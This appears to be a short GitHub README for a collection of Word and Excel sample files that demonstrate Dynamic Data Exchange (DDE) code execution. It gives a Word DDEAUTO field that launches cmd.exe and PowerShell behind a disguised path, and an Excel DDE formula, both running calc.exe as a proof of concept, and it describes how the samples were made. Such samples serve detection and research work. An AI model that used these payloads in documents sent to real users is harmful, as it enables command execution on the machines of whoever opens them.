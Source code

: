 # DDE_Samples
Samples of Word and Excel documents using Dynamic Data Exchange (DDE) to launch calc.exe using the following DDE command. 

Word using;
```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

Excel;
```
=cmd|'/c calc.exe'!A1
```

The samples were created with Word, Excel in Office 2016. Two of the samples were saved as doc and two were saved as docx. Two were created by pasting the command into the formula textbox, and two were created by toggling the 'field' and inserting the command. 